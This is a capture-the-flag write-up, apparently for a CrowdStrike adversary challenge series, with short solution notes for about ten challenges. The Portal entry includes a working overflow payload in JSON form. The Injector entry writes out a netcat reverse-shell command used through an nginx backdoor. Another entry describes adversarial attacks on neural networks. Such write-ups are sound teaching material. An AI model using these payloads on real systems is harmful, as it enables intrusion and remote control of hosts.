 # Catapult Spider

### Much Sad: CS{shibe_good_boi_doge_to_the_moon}
* searching for name from email address in *much_sad.txt* leads to Twitter profile with link to GitHub
* GitHub contains repository for site which contains flag

### Very Protocol: CS{such_Pr0t0_is_n3tw0RkS_w0W}
* using `strings` on *malware* reveals source files for Nodejs command and control server
* extracting certificates from "strings" dump makes it possible to securely connect
* build client that replicates encoding / decoding of messages to / from server
* use the server's "do me a favor" functionality to decrypt the secret key
    * {"dogesez":"do me a favor", "ohmaze":"cript(secrit_key, cript_key)"}

### Module Wow: CS{crypt0_an4lys1s_0n_c0d3}
* using `strings` on *module.wow* reveals some smaller pieces that look like they could be parts of the flag
* disassembly / decompilation shows the module copies a block of memory and then repeatedly xors the input
  string / key with the memory before executing the memory as a function with the string as an argument
* proper key decrypts the function so that it prints the key out as confirmation
* using assembly from test function that takes string as argument and prints it, xoring with obscured function
  reveals pieces of key and provides information for extracting the rest
* any byte in the decrypted code that appears as \x00 will appear as unencrypted plaintext in encrypted function

### Neurotoxin: CS{4tt4cks_0n_n3ur4l_netw0rks}
* use tensorflow model and backpropagation to create "adversarial images" for each cat picture
* decode resulting serialized data to retrieve image and reveal flag
* references:
    * https://medium.com/@ageitgey/machine-learning-is-fun-part-8-how-to-intentionally-trick-neural-networks-b55da32b7196
    * (not used, but possibly good) https://medium.com/@ml.at.berkeley/tricking-neural-networks-create-your-own-adversarial-examples-a61eb7620fd8
    * (not used, but possibly good) https://arxiv.org/pdf/1312.6199.pdf


# Protective Penguin

### Portal: CS{w3b_vPn_h4xx}
* binary takes in a JSON containing username and password base64-encoded
* concats username and password with ":" in between then opens file and searches for matching line
* username and password are limited to 256 characters each, but together can overwrite address
  of filename used in call to "fopen" for file to check for username:password
* "/lib64/ld-linux-x86-64.so.2" string is located in binary and its address can be written over the actual filename's address
* search through "/lib64/ld-linux-x86-64.so.2" for potential username and password lines
* calculate needed filler / padding for data and send username and password along with string address to inject
    * {"user":"cnVudGltZSBsaW5rZXIgc3RhdGlzdGljcw==","pass":"AEFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBqAJAAA=="}


# Space Jackal

### The Proclamation: CS{0rd3r_0f_0x20_b00tl0ad3r}
* running bootloader in QEMU prints message saying there is a hidden message within (references Cicada3301)
* bootloader assembly reveals xor instructions
* xoring bytes of bootloader with 234 reveals message that's printed when ran along with flag

### Matrix: CS{if_computers_could_think_would_they_like_spaces?}
* provided with obfuscated python script for encryption / decryption and encrypted messages on tor webpage
* all messages have SPACEARMY appended to the front of them before being encrypted
* encryption scheme uses a nine character key and encrypts the plaintext in groups of three
* can group the known plaintext from SPACEARMY ((S,C,R), (P,E,M), (A,A,Y)) and use process of elimination to find
  each three-byte group of the key that produces the known plaintext

### Injector: CS{fr33_h00k_b4ckd00r}
* installing and running `chkrootkit` reveals script at /tmp/.hax/injector.sh
* deobfuscating the script reveals that it uses the `__free_hook` functionality to inject code into a process
  that will run any time the process calls free on a chunk of memory
* searching the memory of the nginx process at the offset generated by the script confirms it was the
  the victim of the injection
* disassembling the injected code shows the injected function looks for a string in memory matching
  the form "cmd{...}" where the command between the brackets will be passed to the system function and executed
* sending injector.challenges.adversary.zone:4321/cmd{nc -e /bin/bash ip port} allows a reverse shell to be
  spawned and the flag to be read
